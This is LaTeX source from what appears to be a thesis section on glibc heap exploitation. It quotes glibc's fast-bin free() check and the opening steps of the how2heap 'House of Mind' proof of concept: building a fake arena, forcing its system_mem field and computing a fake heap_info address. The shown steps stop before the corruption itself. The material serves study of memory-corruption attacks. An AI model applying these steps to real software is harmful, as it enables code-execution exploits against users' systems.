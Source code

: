 \documentclass{masterthesis}
\newcommand*\libc{glibc}
\newcommand*\fb{fast bins}
\begin{document}
\subsection{Fast bin}
Consider following code of \fb{} 
\begin{lstlisting}[language=c,frame=tlrb]
if ((unsigned long)(size) <= (unsigned long)(av->max_fast)){
	if (chunk_at_offset (p, size)->size <= 2 * SIZE_SZ
	|| __builtin_expect (chunksize (chunk_at_offset (p, size)) >= av->system_mem, 0)){
		errstr = "free(): invalid next size (fast)";
		goto errout;
}
set_fastchunks(av);
fb = &(av->fastbins[fastbin_index(size)]);
 /* ... */ 
p->fd = *fb;
*fb = p;
}

 \end{lstlisting}
The ideal way in this approach is to take control of fb , so, in the following line, fb overwrites on target. This scenario needs to bypass conditions too. This Attack still works on the current version on \libc{}, so, let's see a real sample from how2heap on the house of mind. Consider the following code: 
\begin{lstlisting}[language=c,frame=tlrb]
int HEAP_MAX_SIZE = 0x4000000;
int MAX_SIZE = (128*1024) - 0x100;
\end{lstlisting}

The first line is maximum heap size, also, the second line is maximum chunk size. This is the threshold of mmap. 
\begin{lstlisting}[language=c,frame=tlrb]
uint8_t* fake_arena = malloc(0x1000); 
uint8_t* target_loc = fake_arena + 0x30;
uint8_t* target_chunk = (uint8_t*) fake_arena - 0x10;
\end{lstlisting}

The second step is to initialize the mentioned fake arena and target location. Then, initial malloc\_state of the arena, also, system\_mem field. This field is used to validate the size of the chunk, so it must be larger than our chunk size. 
\begin{lstlisting}[language=c,frame=tlrb]
fake_arena[0x888] = 0xFF;
fake_arena[0x889] = 0xFF; 
fake_arena[0x88a] = 0xFF; 
\end{lstlisting}

Now we need to find the location of fake arena 
\begin{lstlisting}[language=c,frame=tlrb]
uint64_t new_arena_value = (((uint64_t) target_chunk) + HEAP_MAX_SIZE) & ~(HEAP_MAX_SIZE - 1);
uint64_t* fake_heap_info = (uint64_t*) new_arena_value;
\end{lstlisting}
\end{document}
